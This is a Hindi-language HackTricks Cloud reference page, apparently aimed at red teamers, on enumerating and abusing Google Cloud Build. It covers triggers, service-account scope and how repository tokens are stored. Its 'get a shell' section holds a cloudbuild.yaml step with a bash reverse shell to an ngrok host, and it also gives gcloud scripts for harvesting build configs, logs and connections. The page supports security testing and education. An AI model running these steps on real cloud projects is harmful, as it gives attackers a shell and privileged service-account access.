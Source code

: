 # GCP - Cloud Build Enum

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **सोर्स कोड रिपॉजिटरीज** के साथ एकीकृत होता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज़ करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपॉजिटरी से जुड़ा होता है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github को क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### इवेंट्स

Cloud Build निम्नलिखित स्थितियों में ट्रिगर किया जा सकता है:

* **एक ब्रांच में पुश**: ब्रांच का विवरण दें
* **नया टैग पुश करें**: टैग का विवरण दें
* **पुल रिक्वेस्ट**: PR प्राप्त करने वाली ब्रांच का विवरण दें
* **मैन्युअल इनवोकेशन**
* **Pub/Sub संदेश:** विषय का विवरण दें
* **वेबहुक इवेंट**: एक HTTPS URL प्रदर्शित करेगा और अनुरोध को एक गुप्त के साथ प्रमाणित किया जाना चाहिए

### निष्पादन

तीन विकल्प हैं:

* yaml/json **जिसमें निष्पादित करने के लिए आदेश निर्दिष्ट होते हैं**। आमतौर पर: `/cloudbuild.yaml`
* केवल एक जिसे वेब कंसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे आम विकल्प
* अप्रमाणित पहुँच के लिए प्रासंगिक
* **Dockerfile** बिल्ड करने के लिए
* **Buildpack** बिल्ड करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` **का उपयोग किया जाएगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी जाती हैं लेकिन इसे कुछ अनुमतियाँ देना काफी आसान है:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### अनुमोदन

Cloud Build को बिल्ड निष्पादनों के लिए **अनुमोदन की आवश्यकता होने के लिए कॉन्फ़िग किया जा सकता है** (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन्स और रिपॉजिटरीज

कनेक्शन्स निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जो **एक Github टोकन प्राप्त करने के लिए अनुमतियाँ मांगेगा** जिसे **Secret Manager के अंदर संग्रहीत किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक S**ecret Manager** गुप्त के रूप में संग्रहीत किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन प्रदान करना होगा** जिसे **Secret Manager में संग्रहीत किया जाएगा।**

एक बार कनेक्शन उत्पन्न हो जाने के बाद, आप इसे उन रिपॉजिटरीज से जोड़ने के लिए उपयोग कर सकते हैं जिन तक Github अकाउंट की पहुँच है।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस विधि से जुड़ी रिपॉजिटरीज **केवल 2nd generation का उपयोग करने वाले Triggers में उपलब्ध हैं।**
{% endhint %}

### एक रिपॉजिटरी कनेक्ट करें

यह **`connection`** के समान नहीं है। यह **विभिन्न** तरीकों से **Github या Bitbucket रिपॉजिटरी तक पहुँच प्राप्त करने की अनुमति देता है** लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह एक रिपॉजिटरी ऑब्जेक्ट (1st generation) उत्पन्न करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### स्टोरेज

कभी-कभी Cloud Build **ट्रिगर के लिए फाइलों को स्टोर करने के लिए एक नया स्टोरेज उत्पन्न करेगा**। यह उदाहरण के लिए GCP के द्वारा प्रस्तावित उदाहरण में होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचना संग्रहण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

